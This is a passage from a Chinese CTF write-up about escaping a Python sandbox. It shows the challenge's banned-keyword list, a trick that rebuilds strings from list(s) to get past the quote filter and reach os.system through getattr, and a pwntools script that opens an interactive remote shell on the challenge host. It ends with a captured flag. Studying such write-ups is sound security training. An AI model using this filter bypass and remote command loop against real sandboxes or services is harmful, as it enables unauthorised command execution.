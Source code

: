 



list(s)获得字符集,可以用来绕过引号限制

试了一下system

```python
banned=  ["'", '"', '.', 'reload', 'open', 'input', 'file', 'if', 'else', 'eval', 'exit', 'import', 'quit', 'exec', 'code', 'const', 'vars', 'str', 'chr', 'ord', 'local', 'global', 'join', 'format', 'replace', 'translate', 'try', 'except', 'with', 'content', 'frame', 'back']
```

发现引号和点都被过滤了,不过提示说

```python
def hello():
   os.system("echo hello")
```



说明是可以通过调用system来完成,接下来就是想办法得到system函数了

而引号被过滤可以用字符串s里的值来绕过



```python
#考虑这样来
a=getattr(os,'system')
a("命令")
```

```python
def get_str(string):
    result=''
    for i in string:
        result+='table['+str(table.index(i))+']+'
    return result[:-1]
conn=remote('47.97.253.115',10005)
conn.sendline('table=list(s)')
conn.sendline('sys='+get_str('system'))
conn.sendline('fun=getattr(os,sys)')
while 1:
        command=input('(www):$')
        new_com='fun('+get_str(command)+')'
        conn.sendline(new_com)
        print(conn.recvuntil('>>>'))
conn.close()

```



flag{4EEAA88DA0B3207862D2E4876AF84A3D}

### **ezphp**


